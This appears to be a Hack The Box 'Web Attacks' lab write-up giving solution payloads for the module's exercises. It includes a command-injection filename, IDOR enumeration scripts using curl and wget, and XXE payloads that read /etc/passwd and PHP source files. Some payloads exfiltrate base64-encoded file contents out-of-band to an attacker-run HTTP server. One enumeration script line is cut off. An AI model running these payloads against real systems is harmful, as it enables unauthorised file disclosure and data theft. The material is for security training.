 # [HTB] Web Attacks

## Bypassing Basic Authentication

>**Q. Try to use what you learned in this section to access the 'reset.php' page and delete all files. Once all files are deleted, you should get the flag.**

## Bypassing Security Filters
 
>**Q. To get the flag, try to bypass the command injection filter through HTTP Verb Tampering, while using the following filename: file; cp /flag.txt ./**

## Mass IDOR Enumeration

>**Q. Repeat what you learned in this section to get a list of documents of the first 20 user uid's in /documents.php, one of which should have a '.txt' file with the flag.**
```sh
sudo nano documents.sh
sudo chmod +x documents.sh
```
```sh
#!/bin/bash


for i in {0..50}; do
        for link in $(curl -X POST http://83.136.250.34:49965/documents.php -d >
                wget -q http://83.136.250.34:49965/$link
        done
done
```
```sh
./documents.sh

```

## Bypassing Encoded References

>**Q. Try to download the contracts of the first 20 employee, one of which should contain the flag, which you can read with 'cat'. You can either calculate the 'contract' parameter value, or calculate the '.pdf' file name directly.**
```sh
sudo nano encode.sh
sudo chmod +x encode.sh
```
```sh
#!/bin/bash


for i in {1..20}; do
    for hash in $( (echo -n $i | base64 -w 0) |jq -sRr @uri); do
        curl -s "http://83.136.250.34:36131/download.php?contract=$hash"
    done
done
```


## IDOR in Insecure APIs

>**Q. Try to read the details of the user with 'uid=5'. What is their 'uuid' value?**

## Chaining IDOR Vulnerabilities

>**Q. Try to change the admin's email to 'flag@idor.htb', and you should get the flag on the 'edit profile' page.**

## Local File Disclosure

>**Q. Try to read the content of the 'connection.php' file, and submit the value of the 'api_key' as the answer.**
```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=connection.php">
]>
```
## Advanced Exfiltration with CDATA
```Code: xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```

```
Mdmithu@htb[/htb]$ echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
Mdmithu@htb[/htb]$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
```
Code: xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```
## Advanced File Disclosure

>**Q. Use either method from this section to read the flag at '/flag.php'. (You may use the CDATA method at '/index.php', or the error-based method at '/error').**

```bash
sudo nano xxe.dtd
```

```dtd
<!ENTITY % file SYSTEM "file:///flag.php">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

```bash
python3 -m http.server 8000
```

```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://10.10.15.1:8000/xxe.dtd">
  %remote;
  %error;
]>
```

## Blind Data Exfiltration

>**Q. Using Blind Data Exfiltration on the '/blind' page to read the content of '/327a6c4304ad5938eaf0efb6cc3e53dc.php' and get the flag.**
```bash
sudo nano xxe2.dtd 
```

```dtd
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/327a6c4304ad5938eaf0efb6cc3e53dc.php">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://10.10.15.1:8000/?content=%file;'>">
```

```bash
php -S 0.0.0.0:8000
```

## Web Attacks - Skills Assessment

>**Q. Try to escalate your privileges and exploit different vulnerabilities to read the flag at '/flag.php'.**

```xml
<!DOCTYPE test [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
            <root>
            <name>&xxe;</name>
            <details>test</details>
            <date>2023-07-18</date>
            </root>
```
```xml
<!DOCTYPE test [
  <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/flag.php">
]>
            <root>
            <name>&xxe;</name>
            <details>test</details>
            <date>2023-07-18</date>
            </root>
```

